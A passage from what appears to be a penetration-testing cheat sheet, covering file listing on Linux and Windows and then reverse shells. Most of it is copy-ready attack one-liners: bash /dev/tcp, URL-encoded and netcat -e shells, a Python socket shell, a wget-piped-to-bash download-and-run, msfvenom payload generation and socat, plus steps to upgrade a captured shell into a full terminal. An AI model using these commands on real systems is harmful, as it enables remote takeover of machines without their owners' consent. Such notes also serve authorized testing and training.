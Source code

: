 	- `tar cf - $PWD 2>/dev/null | tar tvf - | grep {file_name}`
### Windows Shell
- List all data
	- `dir /a`
	- `gci -recurse | select fullname` (Powershell)
- Short name
	- `dir /x` 
- Find File
    - `dir {file_name} /s /p`
### Reverse Shell - Linux
- Prepare
	- `nc -nvlp {port}`
	- `nc -vlk {port}`
	- `rlwrap nc -nvlp`
		- Support left and right
- https://reverse-shell.sh/
- [Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- Bash tcp
    - `bash -c 'bash -i >& /dev/tcp/my_ip/7877 0>&1'`
    	- Write file in local first, and use wget/curl to get to victim machine
    	- `/usr/bin/wget -O - {ip:port}/{file} | /bin/bash`
    - `bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}%2F{PORT}%200%3E%261%27`
- Nc
    - `nc {IP} {Port} -e /bin/bash`
- Python
    - `python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP}",{PORT}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")' &`
- Make it more interactively
    - `python -c 'import pty; pty.spawn("/bin/bash")'`
    - `perl -e 'exec "/bin/bash";'`
- Full shell (Can use vim)
    - `bash` (Zsh doesn't support)
    - `nc -nlvp 443` (Open Port to listening, and wait shell to conect)
    - `python -c 'import pty; pty.spawn("/bin/bash")'` (Spawn shell)
    - Ctrl + Z
    - `stty raw -echo`
    - `fg` (Will not show)
    - `reset`
    - Enter , Enter
    - Ctrl + C
    - `export SHELL=bash`
    - `export TERM=xterm-256color`
    - `stty rows 38 columns 116`
- js Shell Code
    - `
    msfvenom -p linux/x86/shell_reverse_tcp LHOST={IP} LPORT={Port} CMD=/bin/bash -f js_le -e generic/none`
- [socat](https://github.com/ernw/static-toolbox/releases/download/socat-v1.7.4.1/socat-1.7.4.1-x86)
    - Server : ```socat file:`tty`,raw,echo=0 tcp-listen:{PORT}```
    - Client : `./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:{IP}:{PORT}`
- Reverse SSH
    - https://github.com/Fahrj/reverse-ssh
### Reverse Shell - Windows
- msfvenom
	- https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
	    - stage : `shell/reverse_tcp`
	        - msf `multi/handler` to receive
	    - stageless : `shell_reverse_tcp`
